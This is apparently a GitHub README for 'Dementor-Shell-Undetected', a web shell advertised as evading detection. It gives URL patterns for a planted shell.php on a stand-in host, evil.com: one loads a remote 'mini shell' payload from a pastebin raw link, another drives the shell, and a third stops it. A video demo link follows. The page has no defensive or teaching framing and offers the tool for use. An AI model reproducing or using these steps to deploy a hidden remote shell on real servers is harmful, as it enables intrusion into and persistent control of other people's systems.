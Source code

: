 # Dementor-Shell-Undetected

Mini Shell URL: http://pastebin.com/raw/5KRBakK8

Usage: https://evil.com/shell.php?start=http://pastebin.com/raw/5KRBakK8

And then use the shell as https://evil.com/shell.php

If you want to stop the shell just put https://evil.com/shell.php?stop

## Video Demo:

[![VideoURL](https://i.ibb.co/GJXHBX3/download.png)]([https://www.youtube.com/watch?v=StTqXEQ2l-Y](https://www.youtube.com/watch?v=IuzwL791etA) "Video URL")

